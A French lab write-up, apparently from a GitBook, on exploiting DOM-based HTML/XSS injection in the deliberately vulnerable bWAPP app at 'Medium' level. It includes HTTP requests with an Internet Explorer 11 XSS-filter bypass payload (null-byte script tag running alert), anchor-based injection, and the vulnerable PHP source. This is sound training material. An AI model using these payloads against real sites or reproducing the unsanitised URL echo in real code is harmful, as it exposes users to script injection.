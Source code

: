 # Niveau "Medium"

## Exploitation

L'URL est ici réfléchie au sein de la page en utilisant la méthode HTTP `GET` :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=valeur HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: security_level=1; PHPSESSID=2f4611482fb97564af7dbe4243dca828
Connection: close
```

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

La récupération de l'URL s'effectue non plus en PHP mais grâce à du Javascript et la méthode `document.write()` de la variable `document.URI` :&#x20;

```html
<i>
  <script>document.write(document.URL)</script>
  "http://192.168.56.116/bWAPP/htmli_current_url.php?parametre=valeur"
</i>
```

Il est donc ici possible d'afficher les paramètres de type ancre :&#x20;

![](<../../../../../.gitbook/assets/image (22).png>)

Les navigateurs récents encodent l'URL, cela a pour conséquence qu'il est pas possible d'exploiter directement la vulnérabilité. Internet Explorer 11 n'effectue pas cet encodage sur les nom et valeur des paramètres d'URL, par contre il possède un filtre anti-XSS pouvant empêcher l'exécution de script malicieux :&#x20;

![](<../../../../../.gitbook/assets/image (8) (1).png>)

Il existe un contournement fonctionnel sur IE permettant tout de même d'exécuter le code :&#x20;

```http
GET /bWAPP/htmli_current_url.php?parametre=<script/%00%00v%00%00>alert('XSS')</script> HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=0
Connection: close
```

![](<../../../../../.gitbook/assets/image (10) (1).png>)

Il est également possible d'exécuter du code HTML/Javascript sans utiliser de contournement spécifique à IE11 mais en utilisant les ancres :&#x20;

```http
GET /bWAPP/htmli_current_url.php HTTP/1.1
Accept: text/html, application/xhtml+xml, image/jxr, */*
Host: 192.168.56.116
Cookie: PHPSESSID=5259cd672a0fb988f6f618b8527b1a8c; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (10) (2).png>)

Etant donné que la valeur de l'URL est récupérée au niveau du client (par du code Javascript, c'est donc une vulnérabilité Dom-based) l'interception et la modification de l'URL ne fonctionnera pas.

A noter qu'il est possible d'injecter le champ également le champ Host mais sans succès après quelques tests (excepté via interception avec un proxy) :&#x20;

![](<../../../../../.gitbook/assets/image (23) (1) (1) (1).png>)

## Analyse du code source

L'application affiche le contenu de la variable `$url` au d'une balise `<i></i>` :

{% code title="htmli_current_url.php" %}
```php
<div id="man">
  <h1>HTML Injection - Reflected (URL)</h1>
  <?php echo "<p align=\"left\">Your current URL: <i>" . $url . "</i></p>";?>
</div>
```
{% endcode %}

La variable `$url` est construite de la manière suivante :&#x20;

{% code title="htmli_current_url.php" %}
```php
$url= "";

switch($_COOKIE["security_level"]) {
  case "0" :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
  case "1" :
    $url = "<script>document.write(document.URL)</script>";
    break;
  case "2" :
    $url = "http://" . $_SERVER["HTTP_HOST"] . xss_check_3($_SERVER["REQUEST_URI"]);
    break;
  default :
    // $url = "http://" . $_SERVER["HTTP_HOST"] . urldecode($_SERVER["REQUEST_URI"]);
    $url = "http://" . $_SERVER["HTTP_HOST"] . $_SERVER["REQUEST_URI"];
    break;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire qu'ici, la variable `$url` est construite de la façon suivante :

```php
$url = "<script>document.write(document.URL)</script>";
```

Il s'agit donc d'une injection XSS basée sur le Dom (également nommée Type-0) car l'information est récupérée directement depuis l'URL affichée dans le navigateur de l'utilisateur (et non celle envoyée au serveur).
